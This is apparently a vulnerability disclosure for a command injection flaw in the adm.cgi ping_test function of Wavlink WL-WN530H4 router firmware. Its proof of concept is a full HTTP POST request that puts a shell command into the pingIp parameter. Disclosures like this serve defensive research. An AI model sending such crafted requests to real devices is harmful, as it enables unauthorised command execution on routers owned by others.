

## Wavlink WL-WN530H4 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WL-WN530H4
* Version: 20220801

* Manufacturer's address： https://www.wavlink.com/en_us/firmware/details/45.html
* Firmware download address ：https://www.wavlink.com/en_us/firmware/details/45.html

### Vulnerability details

Wavlink WL-WN530H4 20220801 was found to contain a command injection vulnerability in the `ping_test` function of the `adm.cgi` via the `pingIp` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.



#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=ping_test&CCMD=4&pingIp=1;pwd;
```

